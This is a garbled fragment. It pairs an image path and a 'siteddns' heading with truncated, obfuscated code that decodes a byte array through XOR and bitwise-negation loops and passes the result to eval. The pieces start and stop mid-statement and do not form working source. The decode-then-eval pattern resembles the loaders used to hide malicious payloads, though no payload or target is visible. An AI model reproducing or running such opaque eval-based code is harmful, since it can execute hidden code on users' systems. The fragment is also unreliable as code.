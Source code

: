  # siteddns
48)break;sv[uv]=sv[uv]^199;sv[uv]=(~sv[uv])&0xff;uv++;}";eval(uv);uv=1;for(;;uv++){if(uv>51)break;sv[uv]=(-((~sv[uv])&0xff))&0xff;sv[uv]=(-sv[uv])&0xff;}uv=3;for(;uv

